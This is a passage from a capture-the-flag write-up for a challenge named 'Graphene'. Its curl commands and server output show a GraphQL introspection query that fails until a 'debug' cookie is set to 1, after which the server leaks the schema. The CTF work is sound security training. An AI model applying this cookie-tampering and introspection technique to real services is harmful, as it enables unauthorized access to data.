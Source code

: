 No surprise there. But - if we can submit GraphQL queries, we can try and leak information about the database.

Let's try to leak the schema:

```console
root@kali:/media/sf_CTFs/appsec/Graphene# curl 'https://graphene.appsecil.ctf.today/api' -H 'Content-Type: application/json; charset=utf-8' --data-raw '{"query":"{__schema {types { name } } }"}'
{"login":"failed"}
```

No luck there. We'll get the same response if we try anything else. Time to go back to the drawing board. Let's take a closer look at what the server sends us back when we access the site:

```console
root@kali:/media/sf_CTFs/appsec/Graphene# curl -I 'https://graphene.appsecil.ctf.today/'
HTTP/1.1 200 OK
server: gunicorn/20.0.4
date: Mon, 26 Oct 2020 19:55:29 GMT
content-length: 2472
content-type: text/html; charset=utf-8
last-modified: Sat, 17 Oct 2020 10:20:28 GMT
cache-control: public, max-age=43200
expires: Tue, 27 Oct 2020 07:55:29 GMT
etag: "1602930028.0-2472-1402931165"
set-cookie: debug=0; Path=/
```

The server is setting a `debug` cookie! Let's try changing the value to `1`.

```console
root@kali:/media/sf_CTFs/appsec/Graphene# curl --location --request POST 'https://graphene.appsecil.ctf.today/api' \
> --header 'Cookie: debug=1' \
> --header 'Content-Type: application/json' \
> --data-raw '{"query":"{\n  __schema {\n    types {\n      name\n    }\n  }\n}","variables":{}}' -s |  sed 's/&#34;/"/g' && echo
<!DOCTYPE html>
<html>
<head>
    <title>Debug</title>
</head>
<body>
    <p>Query: {
  __schema {
    types {
      name
    }
  }
}</p>
    <p>Response: {"__schema": {"types": [{"name": "Query"}, {"name": "User"}, {"name": "String"}, {"name": "Lead"}, {"name": "ID"}, {"name": "Boolean"}, {"name": "Int"}, {"name": "Mutations"}, {"name": "Login"}, {"name": "__Schema"}, {"name": "__Type"}, {"name": "__TypeKind"}, {"name": "__Field"}, {"name": "__InputValue"}, {"name": "__EnumValue"}, {"name": "__Directive"}, {"name": "__DirectiveLocation"}]}}</p>
</body>
</html>
```
